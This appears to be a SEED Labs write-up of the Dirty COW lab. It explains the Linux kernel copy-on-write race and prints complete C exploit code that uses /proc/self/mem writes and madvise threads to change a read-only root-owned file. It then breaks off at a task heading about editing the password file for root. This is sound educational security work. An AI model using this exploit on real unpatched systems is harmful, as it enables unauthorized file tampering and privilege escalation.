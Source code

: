 # Dirty COW Attack Lab
- The Dirty COW vulnerability is an interesting case of the race condition vulnerability, it exists in the Linux kernel since September 2007, and was discovered and exploited in October 2016
- The vulnerability resides in the code of copy-on-write inside Linux kernel, by exploting it, attackers can modify any protected file

## Labsetup
- [`Ubuntu 12.04`](https://seedsecuritylabs.org/labsetup.html)

## Task 1: Modify a Dummy Read-Only File
- objective: write to a read-only file using the Dirty COW vulnerability
- create a dummy file: create `/zzz` with permission `644 (-rw-r--r--)`, and put some random content in it
    ```
    $ sudo touch /zzz
    $ ls -l /zzz
    -rw-r--r-- root root 0 Jan 31 05:26 /zzz
    $ su
    Password:
    # echo 111222333 > /zzz
    # su seed
    $ cat /zzz
    111222333
    $ echo 123 > /zzz
    bash: /zzz: Permission denied
    ```
    - our goal is to replace the pattern `"222"` with `"***"`

- set up the memory mapping thread
    - the program `cow_attack.c` has three threads:
        - the main thread: maps `/zzz` to memory, finds where the pattern `"222"` is, and then creates 2 threads to exploit the Dirty COW vulnerability in the OS kernel
        - the write thread
        - the madvise thred
    ```
    void *map;
    int main(int argc, char *argv[]) {
        pthread_t pth1, pth2;
        struct stat st;
        int file_size;

        // Open the target file in the read-only mode
        int f = open("/zzz", O_RDONLY);
        // Map the file to COW memory using MAP_PRIVATE
        fstat(f, &st);
        file_size = st.st_size;
        map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
        // Find the position of the target string
        char *position = strstr(map, "222");

        // Create 2 threads to launch the attack
        pthread_create(&pth1, NULL, madviseThread, (void*)file_size);
        pthread_create(&pth2, NULL,   writeThread,         position);
        // Wait for the threads to finish
        pthread_join(pth1, NULL);
        pthread_join(pth2, NULL);
        return 0;
    }
    ```
- set up the `write` thread
    - the job of this thread is to replace the string `"222"` in the memory with `"***"`. Since the mapped memory is of COW (Copy-On-Write) type, this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the underlying `/zzz` file
    ```
    void *writeThread(void *arg) {
        char *content = "***";
        off_t offset = (off_t) arg;
        int f = open("/proc/self/mem", O_RDWR);
        while(1) {
            // Move the file pointer to the corresponding position
            lseek(f, offset, SEEK_SET);
            // Write to the memory
            write(f, content, strlen(content));
        }
    }
    ```
- set up the `madvise` thread
    - this thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory
    ```
    void *madviseThread(void *arg) {
        int file_size = (int) arg;
        while(1) {
            madvise(map, file_size, MADV_DONTNEED);
        }
    }
    ```
- *launch the attack*
    - if the `write()` and the `madvise()` system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the `write` operation will always be performed on the private copy. The only way for the attack to succeed is to perform the `madvise()` system call while the `write()` system call is still running.
    - compile and run `cow_attack.c` using `gcc -o cow_attack cow_attack.c -lpthread`
    - after a few seconds, we can observe that `/zzz` is modified
    ```
    $ cat /zzz
    111***333
    ```
## Task 2: Modify the Password File to Gain the Root Privilege